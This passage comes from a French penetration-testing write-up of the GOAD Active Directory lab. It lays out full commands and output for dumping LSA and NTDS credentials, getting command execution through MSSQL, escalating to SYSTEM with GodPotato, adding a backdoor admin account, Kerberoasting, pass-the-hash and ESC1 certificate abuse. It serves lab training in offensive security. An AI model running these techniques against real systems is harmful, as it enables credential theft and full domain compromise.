| vagrant | `e02bc503339d51f71d913c245d35b50b` | Pass-the-Hash |
| Guest | `31d6cfe0d16ae931b73c59d7e0c089c0` | Hash vide (désactivé) |

**Ce que ça a permis :** Hash Administrator local → tentative Pass-the-Hash sur WINTERFELL (voir section 5.1).

---

### 4.6 Dump LSA (secrets + creds en clair)

**Pourquoi :** LSA Secrets (Local Security Authority) stocke les credentials des services Windows, mots de passe des comptes machine, et credentials mis en cache (DCC2) des users du domaine qui se sont connectés. Les comptes de service comme `sql_svc` y stockent souvent leur mot de passe en clair pour démarrer automatiquement.

```bash
netexec smb 192.168.56.22 -u jeor.mormont -p '_L0ngCl@w_' --lsa
```

**Résultat complet :**
```
SMB  192.168.56.22  445  CASTELBLACK  [+] north.sevenkingdoms.local\jeor.mormont:_L0ngCl@w_ (Pwn3d!)
SMB  192.168.56.22  445  CASTELBLACK  [+] Dumping LSA secrets

SMB  192.168.56.22  445  CASTELBLACK  NORTH.SEVENKINGDOMS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a: (2026-04-30 00:04:05)
SMB  192.168.56.22  445  CASTELBLACK  NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405: (2026-04-30 08:20:15)

SMB  192.168.56.22  445  CASTELBLACK  NORTH\CASTELBLACK$:aes256-cts-hmac-sha1-96:ee06af36a0d289849e77ef84e9334995a1b17acc6d883f3f5edd95842b12a6b5
SMB  192.168.56.22  445  CASTELBLACK  NORTH\CASTELBLACK$:aes128-cts-hmac-sha1-96:af84b815f2f5fca9ae4184a8721d5650
SMB  192.168.56.22  445  CASTELBLACK  NORTH\CASTELBLACK$:des-cbc-md5:40493876ad7c371a
SMB  192.168.56.22  445  CASTELBLACK  NORTH\CASTELBLACK$:plain_password_hex:44006a0022006a0062...
SMB  192.168.56.22  445  CASTELBLACK  NORTH\CASTELBLACK$:aad3b435b51404eeaad3b435b51404ee:dbeefc259656f0d14f1366dc00cd01d5:::

SMB  192.168.56.22  445  CASTELBLACK  dpapi_machinekey:0xfd1db6f59aa4f8720ade5bdb7c8861f85eefb162
SMB  192.168.56.22  445  CASTELBLACK  dpapi_userkey:0x0642507d019855aa6b8e85492d7e992fd569055d

SMB  192.168.56.22  445  CASTELBLACK  north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee  ← EN CLAIR !

SMB  192.168.56.22  445  CASTELBLACK  [+] Dumped 9 LSA secrets to
     /home/kali/.nxc/logs/lsa/CASTELBLACK_192.168.56.22_2026-04-30_091826.secrets
```

**Analyse des résultats :**

| Secret | Type | Valeur | Impact |
|--------|------|--------|--------|
| `sql_svc` password | **EN CLAIR** | `YouWillNotKerboroast1ngMeeeeee` | 🔴 MSSQL RCE |
| `robb.stark` | DCC2 hash | `$DCC2$10240#robb.stark#f19bfb9b...` | crack offline |
| `sql_svc` | DCC2 hash | `$DCC2$10240#sql_svc#89e701ebb...` | crack offline |
| `CASTELBLACK$` | Machine keys AES | aes256 + aes128 + des | Kerberos machine |
| DPAPI keys | Machine/User keys | 0xfd1db6f5... | déchiffrement DPAPI |

**Ce que ça a permis :**
- `sql_svc : YouWillNotKerboroast1ngMeeeeee` en clair → accès MSSQL direct → RCE
- `robb.stark` DCC2 → crack offline avec hashcat
- Machine account CASTELBLACK$ → clés Kerberos pour usurpation future

---

### 4.7 MSSQL RCE via sql_svc

**Pourquoi :** Avec le mot de passe sql_svc trouvé dans LSA, on peut se connecter au MSSQL (port 1433) sur CASTELBLACK. Si sql_svc a les droits sysadmin, on peut exécuter des commandes système via `xp_cmdshell`.

**Test connexion MSSQL :**
```bash
netexec mssql 192.168.56.22 \
-u sql_svc -p 'YouWillNotKerboroast1ngMeeeeee'
```

**Résultat :**
```
MSSQL  192.168.56.22  1433  CASTELBLACK  [*] Windows 10/Server 2019 Build 17763
MSSQL  192.168.56.22  1433  CASTELBLACK  [+] north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee (Pwn3d!)
```

**Exécution de commande via mssqlexec :**
```bash
netexec mssql 192.168.56.22 \
-u sql_svc -p 'YouWillNotKerboroast1ngMeeeeee' \
-x "whoami"
```

**Résultat :**
```
MSSQL  192.168.56.22  1433  CASTELBLACK  [+] Executed command via mssqlexec
MSSQL  192.168.56.22  1433  CASTELBLACK  north\sql_svc
```

**Vérification des privilèges de sql_svc :**
```bash
netexec mssql 192.168.56.22 \
-u sql_svc -p 'YouWillNotKerboroast1ngMeeeeee' \
-x "whoami /priv"
```

**Résultat :**
```
MSSQL  192.168.56.22  1433  CASTELBLACK  [+] Executed command via mssqlexec
MSSQL  192.168.56.22  1433  CASTELBLACK  PRIVILEGES INFORMATION
MSSQL  192.168.56.22  1433  CASTELBLACK  SeAssignPrimaryTokenPrivilege  Disabled
MSSQL  192.168.56.22  1433  CASTELBLACK  SeIncreaseQuotaPrivilege       Disabled
MSSQL  192.168.56.22  1433  CASTELBLACK  SeChangeNotifyPrivilege        Enabled
MSSQL  192.168.56.22  1433  CASTELBLACK  SeImpersonatePrivilege         Enabled  ← POTATO !
MSSQL  192.168.56.22  1433  CASTELBLACK  SeCreateGlobalPrivilege        Enabled
```

**Vérification groupes :**
```bash
netexec mssql 192.168.56.22 \
-u sql_svc -p 'YouWillNotKerboroast1ngMeeeeee' \
-x "whoami /all"
```

**Résultat clé :**
```
north\sql_svc   S-1-5-21-1979940629-3296874960-2516319631-1121
NT SERVICE\MSSQL$SQLEXPRESS   ← service account
Mandatory Label\High Mandatory Level
SeImpersonatePrivilege   Enabled  ← VULNÉRABLE POTATO
```

**Ce que ça a permis :** RCE en tant que `north\sql_svc` via MSSQL. SeImpersonatePrivilege activé → GodPotato → SYSTEM.

---

### 4.8 Elévation SYSTEM via GodPotato

**Pourquoi :** `SeImpersonatePrivilege` activé sur un compte de service permet d'usurper le token SYSTEM. La famille "Potato" exploite ce mécanisme via COM/DCOM. GodPotato est compatible Windows Server 2019 et fonctionne sans accès au spooler print.

**Mécanisme GodPotato :**
```
sql_svc (SeImpersonatePrivilege)
  → crée un named pipe
  → force le service RPCSS à se connecter au pipe
  → RPCSS tourne en SYSTEM → connexion SYSTEM au pipe
  → GodPotato usurpe le token SYSTEM via impersonation
  → exécute la commande en tant que NT AUTHORITY\SYSTEM
```

**Etape 1 — Téléchargement GodPotato sur Kali :**
```bash
wget https://github.com/BeichenDream/GodPotato/releases/latest/download/GodPotato-NET4.exe \
-O ~/Desktop/GOAD/GodPotato.exe
```

**Résultat :**
```
HTTP request sent → 302 Found → GitHub releases
Saving to: '/home/kali/Desktop/GOAD/GodPotato.exe'
GodPotato.exe 100% [====>] 56.00K 2.56 MB/s in 0.02s
2026-04-30 09:31:44 - '/home/kali/Desktop/GOAD/GodPotato.exe' saved [57344/57344]
```

**Etape 2 — Upload via evil-winrm (première tentative — ECHEC) :**

```powershell
# Première tentative avec chemin destination Windows
upload /home/kali/Desktop/GOAD/GodPotato.exe C:\Windows\Temp\GodPotato.exe
```

**Résultat :**
```
Info: Uploading /home/kali/Desktop/GOAD/GodPotato.exe to
      C:\Users\jeor.mormont\Documents\C:WindowsTempGodPotato.exe
Data: 76456 bytes of 76456 bytes copied
Info: Upload successful!
```

**Problème :** evil-winrm interprète le chemin Windows `C:\Windows\Temp\GodPotato.exe` comme un nom de fichier local — les backslashes ne sont pas reconnus. Le fichier s'est uploadé sous le nom `C:WindowsTempGodPotato.exe` dans Documents.

**Etape 2bis — Upload corrigé (sans chemin destination) :**

```powershell
# Upload sans spécifier de chemin → se place dans le dossier courant (Documents)
upload /home/kali/Desktop/GOAD/GodPotato.exe
```

**Résultat :**
```
Info: Uploading /home/kali/Desktop/GOAD/GodPotato.exe to
      C:\Users\jeor.mormont\Documents\GodPotato.exe
Data: 76456 bytes of 76456 bytes copied
Info: Upload successful!
```

**Etape 3 — Test SYSTEM :**
```powershell
.\GodPotato.exe -cmd "whoami"
```

**Résultat complet :**
```
[*] CombaseModule: 0x140714746314752
[*] DispatchTable: 0x140714748628160
[*] UseProtseqFunction: 0x140714748006176
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\ac0858cf-ae42-444a-bac9-5104b269d635\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00000802-0c2c-ffff-2162-1bb952299277
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 864 Token:0x756  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True                                    ← TOKEN SYSTEM TROUVÉ
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM                           ← ON EST SYSTEM
[*] process start with pid 4320
```

**Etape 4 — Création user backdoor admin :**
```powershell
.\GodPotato.exe -cmd "cmd /c net user hacker Password123! /add"
```

**Résultat :**
```
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 2784
The command completed successfully.
```

```powershell
.\GodPotato.exe -cmd "cmd /c net localgroup administrators hacker /add"
```

**Résultat :**
```
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 6320
The command completed successfully.
```

> ✅ **NT AUTHORITY\SYSTEM sur CASTELBLACK**
> ✅ **hacker:Password123! créé admin local (persistence)**

**Etape 5 — Tentative dump LSASS (ECHEC) :**

```powershell
# Chercher le PID de lsass
.\GodPotato.exe -cmd "cmd /c tasklist | findstr lsass"
```

**Résultat :**
```
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 5036
(aucun output lsass visible)
```

```powershell
# Tentative dump avec rundll32 (PID 624 supposé)
.\GodPotato.exe -cmd "cmd /c rundll32 C:\windows\System32\comsvcs.dll MiniDump 624 C:\Windows\Temp\lsass.dmp full"
```

**Résultat :**
```
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 824
The system cannot find the file specified.
```

**Tentative de download du dump :**
```powershell
# Copie vers Documents pour download
.\GodPotato.exe -cmd "cmd /c copy C:\Windows\Temp\lsass.dmp C:\Users\jeor.mormont\Documents\lsass.dmp"
```

**Résultat :**
```
The system cannot find the file specified.
→ Le dump lsass n'a pas été créé (PID incorrect ou protection)
```

**Pourquoi ça a échoué :** Le PID 624 ne correspond pas à lsass sur cette machine. Le dump LSASS via GodPotato est une limitation — on obtient SYSTEM via le pipe mais pas un vrai process SYSTEM interactif avec accès mémoire complet. Le dump SAM/LSA via netexec est plus fiable pour récupérer les credentials.

**Ce que ça a permis :** Contrôle total de CASTELBLACK en tant que SYSTEM. Compte backdoor hacker créé pour persistance. Dump LSASS échoué → credentials récupérés via SAM/LSA (sections 4.5 et 4.6).

---

### 4.9 Kerberoast — SPNs et Constrained Delegation

**Pourquoi :** Lancé depuis Kali avec brandon.stark (obtenu en section 3.3) pendant qu'on exploite CASTELBLACK. On demande des TGS (Ticket Granting Service) pour tous les comptes avec un SPN. Ces tickets sont chiffrés avec le hash du compte de service → crackables offline. La Constrained Delegation permet d'usurper n'importe quel user sur certains services → chemin vers WINTERFELL DC.

```bash
impacket-GetUserSPNs -request \
-outputfile ~/Desktop/GOAD/hashes.kerberoast \
-dc-ip 192.168.56.11 \
north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```

**Résultat :**
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC

ServicePrincipalName                                Name         MemberOf                    PasswordLastSet              LastLogon   Delegation
──────────────────────────────────────────────────  ───────────  ──────────────────────────  ───────────────────────────  ──────────  ──────────────
HTTP/eyrie.north.sevenkingdoms.local                sansa.stark  CN=Stark,CN=Users,...        2026-04-29 19:45:25          <never>     constrained ← CRITIQUE
CIFS/winterfell.north.sevenkingdoms.local           sansa.stark  CN=Stark,CN=Users,...        2026-04-29 19:45:25          <never>     constrained ← CRITIQUE
HTTP/thewall.north.sevenkingdoms.local              jon.snow     CN=Night Watch,CN=Users,...  2026-04-29 19:45:36          <never>     constrained ← CRITIQUE
MSSQLSvc/castelblack.north.sevenkingdoms.local      sql_svc                                   2026-04-29 19:45:44          <never>
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433 sql_svc                                   2026-04-29 19:45:44          <never>

[-] CCache file is not found. Skipping...
```

**3 hashes TGS récupérés dans hashes.kerberoast :**
- `sansa.stark` → TGS hash → crack en cours
- `jon.snow` → TGS hash → crack en cours
- `sql_svc` → TGS hash (mot de passe déjà connu : `YouWillNotKerboroast1ngMeeeeee`)

**Finding critique — Constrained Delegation :**
```
sansa.stark → peut accéder à :
  HTTP/eyrie.north.sevenkingdoms.local
  CIFS/winterfell.north.sevenkingdoms.local  ← accès DC WINTERFELL via S4U2Proxy

jon.snow    → peut accéder à :
  HTTP/thewall.north.sevenkingdoms.local
```

**Ce que ça a permis :** Si sansa.stark ou jon.snow cracké → exploitation Constrained Delegation → usurpation d'administrateur sur WINTERFELL (DC) → potentiellement DCSync → dump de tous les hashes du domaine.

---

## 🔀 Phase 5 — Lateral Movement {#lateral}

> **Objectif :** Utiliser les credentials et hashes collectés pour pivoter vers WINTERFELL (DC) puis KINGSLANDING (Forest Root DC).

---

### 5.1 Tentatives avec credentials collectés

**Test sql_svc WinRM sur WINTERFELL :**
```bash
netexec winrm 192.168.56.11 \
-u sql_svc -p 'YouWillNotKerboroast1ngMeeeeee'
```

**Résultat :**
```
WINRM  192.168.56.11  5985  WINTERFELL  [-] north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
```
→ Echec — sql_svc n'a pas accès WinRM sur WINTERFELL.

---

**Test Pass-the-Hash Administrator local sur WINTERFELL :**
```bash
netexec smb 192.168.56.11 \
-u Administrator \
-H dbd13e1c4e338284ac4e9874f7de6ef4 \
--local-auth
```

**Résultat :**
```
SMB  192.168.56.11  445  WINTERFELL  [-] WINTERFELL\Administrator:dbd13e1c4e338284ac4e9874f7de6ef4
                                      STATUS_LOGON_FAILURE
```
→ Echec — hash Administrator local de CASTELBLACK ≠ hash Administrator de WINTERFELL (pas de réutilisation de mot de passe).

---

### 5.2 Crack robb.stark DCC2

**Pourquoi :** robb.stark s'est connecté récemment sur CASTELBLACK (timestamp 2026-04-30 08:20:15 dans LSA). Son hash DCC2 est en cache. DCC2 (Domain Cached Credentials v2) utilise PBKDF2 avec 10240 itérations → beaucoup plus lent que NTLM à cracker mais possible avec hashcat.

```bash
hashcat -m 2100 \
'$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405' \
/usr/share/wordlists/rockyou.txt
```

**Options hashcat :**
| Option | Rôle |
|--------|------|
| `-m 2100` | Mode DCC2 (Domain Cached Credentials v2) |
| `'$DCC2$10240#...'` | Hash DCC2 au format hashcat |
| `rockyou.txt` | Dictionnaire 14M mots de passe |

**Résultat :** En cours — DCC2 est lent (PBKDF2 × 10240 itérations par tentative).

---

### 5.3 Kerberoast — Crack john hashes.kerberoast

**Pourquoi :** On avait récupéré 3 hashes TGS via Kerberoast (sansa.stark, jon.snow, sql_svc). On lance john pour cracker les mots de passe offline.

```bash
john ~/Desktop/GOAD/hashes.kerberoast \
--wordlist=/usr/share/wordlists/rockyou.txt
```

**Résultat :**
```
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5tgs, Kerberos 5 TGS etype 23)
Will run 4 OpenMP threads

iknownothing    (?)

1g 0:00:06:28 DONE (2026-04-30 10:00) 0.002575g/s 36941p/s 93030c/s
Session completed.
```

**Identification du compte cracké :**
```bash
john ~/Desktop/GOAD/hashes.kerberoast --show
```
```
?:iknownothing

1 password hash cracked, 2 left
```

**Pourquoi `?` comme nom d'utilisateur :** John n'arrive pas à afficher le nom depuis le format TGS brut. En regardant l'ordre des hashes dans `hashes.kerberoast` :
```
Hash 1 → sansa.stark  ← PREMIER dans le fichier = celui cracké
Hash 2 → jon.snow
Hash 3 → sql_svc      (déjà connu : YouWillNotKerboroast1ngMeeeeee)
```

> ✅ **sansa.stark : iknownothing** — cracké en 6 min 28 sec

**Test des credentials sansa.stark sur les machines :**

```bash
netexec smb 192.168.56.10 192.168.56.11 192.168.56.22 \
-u sansa.stark -p iknownothing \
-d north.sevenkingdoms.local
```

**Résultat :**
```
CASTELBLACK  → [-] STATUS_LOGON_FAILURE
WINTERFELL   → [-] STATUS_LOGON_FAILURE
KINGSLANDING → [-] STATUS_LOGON_FAILURE
```

→ Echec sur SMB — sansa.stark a des restrictions de connexion mais le mot de passe est valide pour Kerberoast (TGS obtenu).

**Ce que ça a permis :** sansa.stark:iknownothing → utilisable pour Constrained Delegation S4U2Proxy vers WINTERFELL DC (TODO phase 6).

---

### 5.4 BloodHound Collection

**Pourquoi :** Cartographier visuellement toutes les relations AD — groupes, ACLs, chemins d'attaque vers Domain Admins — pour identifier le chemin optimal vers KINGSLANDING.

**Correction /etc/hosts nécessaire :**
```bash
sudo sh -c "echo '192.168.56.10 KINGSLANDING.sevenkingdoms.local KINGSLANDING' >> /etc/hosts"
sudo sh -c "echo '192.168.56.11 WINTERFELL.north.sevenkingdoms.local WINTERFELL' >> /etc/hosts"
sudo sh -c "echo '192.168.56.22 CASTELBLACK.north.sevenkingdoms.local CASTELBLACK' >> /etc/hosts"
```

**Première tentative — bloodhound-ce-python (ECHEC) :**
```bash
bloodhound-ce-python -d north.sevenkingdoms.local \
-u brandon.stark -p iseedeadpeople \
-dc 192.168.56.11 -ns 192.168.56.11 \
-c all --zip
```
```
ERROR: The specified domain controller 192.168.56.11 looks like an IP address,
but requires a hostname (FQDN).
```

**Deuxième tentative — bloodhound-python legacy (ECHEC résolution DNS) :**
```bash
bloodhound-python -u 'jeor.mormont' -p '_L0ngCl@w_' \
-d north.sevenkingdoms.local \
-dc WINTERFELL -c All
```
```
ERROR: Failed to resolve LDAP server IP
→ WINTERFELL non résolu sans /etc/hosts
```

**Troisième tentative — avec FQDN (SUCCÈS) :**
```bash
bloodhound-python -u 'jeor.mormont' -p '_L0ngCl@w_' \
-d north.sevenkingdoms.local \
-dc WINTERFELL.north.sevenkingdoms.local \
-ns 192.168.56.11 \
-c All --zip
```

**Résultat :**
```
INFO: Found AD domain: north.sevenkingdoms.local
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 2 computers
INFO: Found 17 users
INFO: Found 51 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: castelblack.north.sevenkingdoms.local
INFO: Querying computer: winterfell.north.sevenkingdoms.local
INFO: Done in 00M 07S
INFO: Compressing output into 20260430101834_bloodhound.zip
```

> ✅ **BloodHound data collectée : 20260430101834_bloodhound.zip**
> - 17 users, 51 groupes, 2 machines, 1 trust (north → sevenkingdoms)

**Ce que ça a permis :** Cartographie complète du domaine north → identification du trust forest → chemins d'attaque vers KINGSLANDING visualisables dans BloodHound GUI.

---

### 5.5 Pass-the-Hash Administrator → WINTERFELL Pwn3d!

**Pourquoi :** Le hash NTLM de l'Administrator local de CASTELBLACK (`dbd13e1c4e338284ac4e9874f7de6ef4`) a été testé sur WINTERFELL. Dans les labs, les admins réutilisent souvent le même mot de passe sur plusieurs machines.

```bash
netexec smb 192.168.56.11 \
-u Administrator \
-H dbd13e1c4e338284ac4e9874f7de6ef4 \
--local-auth
```

**Résultat :**
```
SMB  192.168.56.11  445  WINTERFELL  [*] Windows 10/Server 2019 Build 17763 x64
SMB  192.168.56.11  445  WINTERFELL  [+] north.sevenkingdoms.local\Administrator:dbd13e1c4e338284ac4e9874f7de6ef4 (Pwn3d!)
```

> 🔥 **WINTERFELL Pwn3d! — même hash Administrator sur CASTELBLACK et WINTERFELL**

**Ce que ça a permis :** Admin local sur le DC WINTERFELL → shell evil-winrm → dump NTDS.

---

### 5.6 Shell evil-winrm WINTERFELL

**Pourquoi :** Avec le hash Administrator valide sur WINTERFELL, on ouvre un shell WinRM pour post-exploitation sur le DC.

```bash
evil-winrm -i 192.168.56.11 \
-u Administrator \
-H dbd13e1c4e338284ac4e9874f7de6ef4
```

**Résultat :**
```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\administrator\Documents> whoami
north\administrator
```

**Vérification réseau (dual-homed WINTERFELL aussi) :**
```powershell
ipconfig
```
```
Ethernet adapter Ethernet:
   DNS Suffix  : openstacklocal
   IPv4 Address: 10.0.2.15      ← réseau caché
   Default Gateway: 10.0.2.2

Ethernet adapter Ethernet 2:
   IPv4 Address: 192.168.56.11  ← réseau lab
```

> WINTERFELL est également dual-homed sur 10.0.2.0/24 !

**Sessions actives (qwinsta) :**
```powershell
qwinsta
```
```
SESSIONNAME    USERNAME     ID    STATE
>services                   0    Disc
 console       robb.stark   1    Active  ← SESSION ACTIVE
 rdp-tcp                  65536  Listen
```

> robb.stark a une session active sur WINTERFELL → credentials potentiellement en mémoire.

**Ce que ça a permis :** Shell admin sur DC WINTERFELL → dump NTDS → tous les hashes du domaine north.

---

### 5.7 NTDS Dump — Tous les hashes du domaine north

**Pourquoi :** En tant qu'Administrator du DC, on peut dumper la base de données Active Directory complète (NTDS.dit) qui contient les hashes NTLM de TOUS les utilisateurs du domaine.

**Avertissement AV :**
```bash
netexec smb 192.168.56.11 \
-u Administrator \
-H dbd13e1c4e338284ac4e9874f7de6ef4 \
--ntds
```
```
[!] Dumping the ntds can crash the DC on Windows Server 2019.
Use the option --user <user> to dump a specific user safely
or the module -M ntdsutil [Y/n] Y
```

**Résultat complet :**
```
[*] Dumping the NTDS, this could take a while...
[+] north.sevenkingdoms.local\Administrator:dbd13e1c4e338284ac4e9874f7de6ef4 (Pwn3d!)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:68a0a74138bd5c949d528437c0c371d1:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
arya.stark:1110:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
eddard.stark:1111:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
catelyn.stark:1112:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
robb.stark:1113:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
sansa.stark:1114:aad3b435b51404eeaad3b435b51404ee:b777555c2e2e3716e075cc255b26c14d:::
brandon.stark:1115:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
rickon.stark:1116:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
hodor:1117:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
jon.snow:1118:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
samwell.tarly:1119:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
jeor.mormont:1120:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
sql_svc:1121:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:3cac26f009f33a8ea2132010e0683871:::
CASTELBLACK$:1105:aad3b435b51404eeaad3b435b51404ee:dbeefc259656f0d14f1366dc00cd01d5:::
SEVENKINGDOMS$:1104:aad3b435b51404eeaad3b435b51404ee:53b0cb49ad4b98d11ab6eb158a895c17:::

[+] Dumped 19 NTDS hashes to
/home/kali/.nxc/logs/ntds/WINTERFELL_192.168.56.11_2026-04-30_104719.ntds
```

> ✅ **19 hashes NTLM dumpés — domaine north.sevenkingdoms.local entièrement compromis**

**Hashes critiques récupérés :**

| Compte | Hash NTLM | Importance |
|--------|-----------|------------|
| `krbtgt` | `68a0a74138bd5c949d528437c0c371d1` | 🔴 Golden Ticket inter-domaine |
| `Administrator` | `dbd13e1c4e338284ac4e9874f7de6ef4` | Admin DC north |
| `robb.stark` | `831486ac7f26860c9e2f51ac91e1a07a` | Hash NTLM réel (≠ DCC2) |
| `SEVENKINGDOMS$` | `53b0cb49ad4b98d11ab6eb158a895c17` | Compte trust inter-domaine |

**Ce que ça a permis :** Tous les hashes du domaine north → krbtgt disponible → Golden Ticket inter-domaine possible vers KINGSLANDING.

---

## 🏰 Phase 6 — KINGSLANDING (En cours) {#kingslanding}

> **Objectif :** Compromettre le DC Forest Root sevenkingdoms.local via le trust inter-domaine et la vulnérabilité ESC1 (AD CS).

---

### 6.1 Scan AD CS — Identification ESC1

**Pourquoi :** KINGSLANDING héberge un service AD CS (Active Directory Certificate Services). La vulnérabilité ESC1 permet à n'importe quel utilisateur authentifié de demander un certificat pour n'importe quel compte (y compris Administrator) si le template est mal configuré.

**Scan via LDAP :**
```bash
netexec ldap 192.168.56.10 \
-u Administrator \
-H dbd13e1c4e338284ac4e9874f7de6ef4 \
-d north.sevenkingdoms.local \
-M adcs
```

**Résultat :**
```
LDAP  192.168.56.10  389  KINGSLANDING  [*] Windows 10/Server 2019 Build 17763
LDAP  192.168.56.10  389  KINGSLANDING  [+] north.sevenkingdoms.local\Administrator:dbd13e1c4e338284ac4e9874f7de6ef4 (Pwn3d!)
ADCS  192.168.56.10  389  KINGSLANDING  [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS  192.168.56.10  389  KINGSLANDING  Found PKI Enrollment Server: kingslanding.sevenkingdoms.local
ADCS  192.168.56.10  389  KINGSLANDING  Found CN: SEVENKINGDOMS-CA
```

> ✅ **CA identifiée : SEVENKINGDOMS-CA sur kingslanding.sevenkingdoms.local**

**Scan détaillé avec certipy :**
```bash
certipy find \
-u 'Administrator@north.sevenkingdoms.local' \
-hashes ':dbd13e1c4e338284ac4e9874f7de6ef4' \
-target 192.168.56.10 \
-vulnerable -stdout
```

**Résultat (extrait) :**
```
Certificate Authorities
  CA Name           : SEVENKINGDOMS-CA
  DNS Name          : kingslanding.sevenkingdoms.local
  Web Enrollment    : Enabled  ← ESC8 possible aussi
  Certificate Templates
    Template Name   : ESC1
    Enrollee Supplies Subject : True  ← CRITIQUE
    Enrollment Rights : SEVENKINGDOMS.LOCAL\Domain Users
    Client Authentication : True
    [!] Vulnerabilities
      ESC1 - Template allows for client authentication and has
             'ENROLLEE_SUPPLIES_SUBJECT' flag set
```

> 🔴 **ESC1 CONFIRMÉ — Template ESC1 vulnérable sur KINGSLANDING**
>
> **Conditions de la vulnérabilité :**
> - `Enrollee Supplies Subject: True` → on peut mettre n'importe quel UPN dans le certificat
> - `Enrollment Rights: Domain Users` → tout utilisateur authentifié peut s'inscrire
> - `Client Authentication: True` → le certificat peut servir à s'authentifier

**Ce que ça a permis :** Identifier ESC1 → vecteur d'attaque pour devenir Administrator de sevenkingdoms.local.

---

### 6.2 Tentatives d'exploitation ESC1 (Echecs)

**Pourquoi les tentatives ont échoué :** Le template ESC1 n'autorise que `SEVENKINGDOMS.LOCAL\Domain Users` à s'inscrire. Les comptes du domaine `north` ne font pas partie de ce groupe par défaut → `CERTSRV_E_TEMPLATE_DENIED`.

**Tentative avec Administrator@north (ECHEC) :**
```bash
certipy req \
-u 'Administrator@north.sevenkingdoms.local' \
-hashes ':dbd13e1c4e338284ac4e9874f7de6ef4' \
-target 192.168.56.10 \
-ca SEVENKINGDOMS-CA \
-template ESC1 \
-upn administrator@sevenkingdoms.local
```
```
[-] Got error: CERTSRV_E_TEMPLATE_DENIED
→ Administrator@north n'a pas les droits d'inscription sur le template ESC1
```

**Tentative avec robb.stark@sevenkingdoms.local + hash NTLM (ECHEC DNS) :**
```bash
certipy req \
-u 'robb.stark@sevenkingdoms.local' \
-hashes ':831486ac7f26860c9e2f51ac91e1a07a' \
-target kingslanding.sevenkingdoms.local \
-ca SEVENKINGDOMS-CA \
-template ESC1 \
-upn administrator@sevenkingdoms.local \
-dc-ip 192.168.56.10
```
```
[!] DNS resolution failed: SEVENKINGDOMS.LOCAL does not exist
[-] Got error: Failed to get DCE RPC connection
→ /etc/hosts mal configuré ou résolution DNS insuffisante
```

**⚠️ Note importante :** robb.stark est dans le domaine `north`, pas dans `sevenkingdoms.local`. Son hash NTLM (`831486ac7f26860c9e2f51ac91e1a07a`) est issu du NTDS de WINTERFELL → il ne sera pas reconnu comme `Domain User` de `sevenkingdoms.local`.

---

### 6.3 NTDS Dump KINGSLANDING (Tentative)

**Test Pass-the-Hash Administrator sur KINGSLANDING :**
```bash
netexec smb 192.168.56.10 \
-u Administrator \
-H dbd13e1c4e338284ac4e9874f7de6ef4 \
-d sevenkingdoms.local
```
```
[-] sevenkingdoms.local\Administrator:dbd13e1c4e338284ac4e9874f7de6ef4
    STATUS_LOGON_FAILURE
```
→ Le hash Administrator de north ≠ hash Administrator de sevenkingdoms → pas de réutilisation de mot de passe entre domaines.

**Test ntdsutil (ECHEC AV) :**
```powershell
# Dans evil-winrm WINTERFELL
ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\dump" q q
```
```
Program 'ntdsutil.exe' failed to run: Access is denied
```
→ Bloqué par politique ou AV.

---

### 6.4 Analyse BloodHound — sessions actives WINTERFELL

**Découverte sessions sur WINTERFELL :**
```powershell
# Dans evil-winrm WINTERFELL
qwinsta
```
```
SESSIONNAME    USERNAME     ID    STATE
>services                   0    Disc
